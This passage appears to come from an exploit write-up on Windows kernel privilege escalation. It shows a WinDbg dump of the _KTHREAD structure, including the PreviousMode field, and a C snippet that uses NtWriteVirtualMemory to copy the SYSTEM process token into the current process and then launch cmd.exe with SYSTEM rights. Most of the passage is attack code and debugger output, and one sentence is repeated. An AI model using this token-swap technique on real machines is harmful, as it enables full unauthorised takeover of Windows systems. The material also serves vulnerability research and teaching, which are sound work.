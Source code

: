 ```c
2: kd> dt _KTHREAD FFFFDC0FC3780080
nt!_KTHREAD
   +0x000 Header           : _DISPATCHER_HEADER
   +0x018 SListFaultAddress : (null) 
   +0x020 QuantumTarget    : 0x8ad5b1e
   +0x028 InitialStack     : 0xfffff500`166f7c30 Void
   +0x030 StackLimit       : 0xfffff500`166f1000 Void
   +0x038 StackBase        : 0xfffff500`166f8000 Void
   +0x040 ThreadLock       : 0
   +0x048 CycleTime        : 0x4bf645c
   +0x050 CurrentRunTime   : 0
   +0x054 ExpectedRunTime  : 0xbe0b
   +0x058 KernelStack      : 0xfffff500`166f7000 Void
   +0x060 StateSaveArea    : 0xfffff500`166f7c80 _XSAVE_FORMAT
...
   +0x220 Process          : 0xffffdc0f`c39640c0 _KPROCESS
   +0x228 UserAffinity     : 0xffffdc0f`c3780a68 _KAFFINITY_EX
   +0x230 UserAffinityPrimaryGroup : 0
   +0x232 PreviousMode     : 0 ''
   +0x233 BasePriority     : 8 ''
```

Back in the Analytics machine, press any button to proceed to the next step. 

```c
pNtWriteVirtualMemory(GetCurrentProcess(), (ULONGLONG)EPROCESS + 0x4b8 , (ULONGLONG)SYSTEM_EPROCESS + 0x4b8, sizeof(ULONGLONG), &dwbytes);
system("cmd.exe")
```

Kernel Read/Write is now possible with `pNtWritevirtualMemory` function through PreviousMode modification. After swapping the token with that of the system EPROCESS, executing the cmd process grants NT AUTHORITY\SYSTEM privileges...!

After swapping the token with that of the system EPROCESS, executing the cmd process grants NT AUTHORITY\SYSTEM privileges...!

![image.png](en/image%208.png)
